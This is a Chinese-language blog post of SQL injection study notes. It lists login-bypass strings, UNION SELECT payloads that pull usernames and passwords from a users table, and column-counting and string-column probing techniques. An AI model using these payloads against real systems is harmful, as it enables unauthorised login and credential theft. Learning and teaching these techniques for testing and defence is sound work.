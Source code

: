 ```yaml
---
layout: post
title: SQL注入
---
```

   
SQL注入学习笔记   
  
# SQL注入

**一般存在位置**  
数据交互或查询的地方

## 0x01 直接注入
xxx'+or+1=1--  
万能密码
admin'--

## 0x02 union联合查询
使用union可以拼接查询语句  
' union select username,password from users--  

>如果只能输出一行，让前面的查询为假来输出  
and 1=2 union select password from users--

**使用要求**：  
1. 每个请求返回列数相同
2. 数据类型要兼容每个请求

查询原始请求返回列数方法：  
1. ' order by 1  
   ' order by 2  
   ' order by 3  
   etc  
   这个语句不用知道列名，数字代表的是第几列，超过列数最大值时将报错
2. ' UNION SELECT NULL--  
   ' UNION SELECT NULL,NULL--  
   ' UNION SELECT NULL,NULL,NULL--  
   etc  
   NULL数量不对将报错，用NULL来测能保证数据类型兼容原始语句和注入语句  
>*注*:  
>1. 在Oracle数据库中，查询语句必须有select来指定数据库，可以利用内建表 **DUAL** 来绕过，例： ' UNION SELECT NULL FROM DUAL--    
>2. 在 MySQL中 --注释前必须加一个空格，或者用#也可以注释

### union找数据类型为字符串的列
猜出列数后，可以找数据类型为字符串的列  
用这样的语句,查看列是否为字符串:  
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--   
当列值数据类型不兼容会导致报错，如果没发生错误，说明是列值是字符串类型，可以进一步检索。
